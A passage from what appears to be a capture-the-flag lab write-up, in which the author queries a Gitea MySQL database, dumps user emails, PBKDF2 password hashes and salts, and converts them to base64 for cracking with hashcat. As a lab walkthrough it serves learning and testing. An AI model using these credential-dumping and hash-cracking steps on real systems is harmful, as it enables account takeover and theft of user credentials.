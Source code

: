 There seems to be a private repository `home-backup`:

```sql
MySQL [gitea]> select owner_name,name,description from repository;
+------------+-------------+-----------------------------------------------------------------+
| owner_name | name        | description                                                     |
+------------+-------------+-----------------------------------------------------------------+
| juan       | DevOps      | Templates and config files for automation and server management |
| juan       | home-backup | Backup for home directory in WEB                                |
+------------+-------------+-----------------------------------------------------------------+
2 rows in set (0.022 sec)
```

Let's extract the hashes:

```sql
MySQL [gitea]> select email,passwd,passwd_hash_algo,salt,is_admin from user;
+-----------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------------------+----------+
| email                       | passwd                                                                                               | passwd_hash_algo | salt                             | is_admin |
+-----------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------------------+----------+
| administrator@unintended.vl | f57a3d5d199ac8054c709e665b4eb4842f0e172a253a96038be5ef9e6fe7b0290f2d715524883dd117ac309e878c1dbbe902 | pbkdf2$50000$50  | 6f7cf4aa34feb922092ef9f7ca342fa5 |        1 |
| juan@unintended.vl          | d8bf3dff89969075cd73cc1496942901ea132619454318cb37e4bec821d6867045bcbc0ac2905c2531ee5d6e6c5a475c9b51 | pbkdf2$50000$50  | a3914c8815b674a9f680eaf8eb799e19 |        0 |
+-----------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------------------+----------+
2 rows in set (0.021 sec)
```

By looking at the [Gitea source code](https://github.com/go-gitea/gitea/blob/fd63b96f6a4c5b3ea9e53d37af85e0d2d09715b9/modules/auth/password/hash/pbkdf2.go) we can confirm it uses PBKDF2 with SHA256 as the hash algorithm.

In the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) we can find the format to crack a PBKDF2 hash:

```
10900 	PBKDF2-HMAC-SHA256 	sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt 
```

The correct format is `sha256:<number_of_iterations>:<base64_salt>:<base64_hash>`.

In the database we can see that the number of iterations is 50000. The salt and hash are in hex so we need to convert them to Base64.

Let's try to crack the administrator's hash:

```shell-session
└─$ echo '6f7cf4aa34feb922092ef9f7ca342fa5' | xxd -r -p | base64
b3z0qjT+uSIJLvn3yjQvpQ==
```

```shell-session
└─$ echo 'f57a3d5d199ac8054c709e665b4eb4842f0e172a253a96038be5ef9e6fe7b0290f2d715524883dd117ac309e878c1dbbe902' | xxd -r -p | base64
9Xo9XRmayAVMcJ5mW060hC8OFyolOpYDi+Xvnm/nsCkPLXFVJIg90ResMJ6HjB276QI=
```
